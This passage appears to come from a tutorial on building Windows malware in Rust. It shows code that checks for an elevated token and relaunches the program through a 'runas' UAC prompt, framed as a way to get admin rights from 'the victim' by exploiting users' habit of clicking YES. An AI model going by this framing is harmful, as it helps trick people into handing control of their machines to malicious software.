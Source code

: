 
This is a great way to enforce priviledge security, but a typical user would not be inclined to click YES on this if they do not understand what the application is about.


Most of the time, users will think some software internally will fail if they don't agree to click YES on this, so they just develop a habit to click YES over time. After all, most softwares that prompt for this is legit, and they almost never have any bad consequence for clicking YES.


We will learn how to prompt this and directly ask the victim for admin priviledge to the machine.


First, we will check if we already have admin acess token or not. Major shoutout to this [blog](https://vimalshekar.github.io/codesamples/Checking-If-Admin) for giving me the code in C++ to translate into Rust.


``` rust
   fn is_elevated() -> bool {
       let mut h_token: HANDLE = null_mut();
       let mut token_ele: TOKEN_ELEVATION = TOKEN_ELEVATION { TokenIsElevated: 0 };
       let mut size: u32 = 0u32;
       unsafe {
           OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY, &mut h_token);
           GetTokenInformation(
               h_token,
               TokenElevation,
               &mut token_ele as *const _ as *mut _,
               std::mem::size_of::<TOKEN_ELEVATION>() as u32,
               &mut size,
           );
           return token_ele.TokenIsElevated == 1;
       }
   }
```

This function will return **false** if we does not have admin access. Next, we can have a function checking for this, and if we don't have admin priviledge, we will prompt UAC.

``` rust
   fn check_elevation() -> bool {
       unsafe {
           let mut name: Vec<i8> = Vec::new();
           name.resize(200, 0i8);
           let length = GetModuleFileNameA(null_mut(), name.as_ptr() as *mut i8, 200);
           let mut path: Vec<u8> = Vec::new();
           for i in 0..length as usize {
               path.push(name[i].clone() as u8);
           }
           if is_elevated() {
               return true;
           } else {
               println!("This is not elevated yet");
               ShellExecuteA(
                   null_mut(),
                   CString::new("runas").unwrap().as_ptr(),
                   CString::from_vec_unchecked(path).as_ptr(),
                   null_mut(),
                   null_mut(),
                   1,
               );
           }
           return false;
       }
   }
```
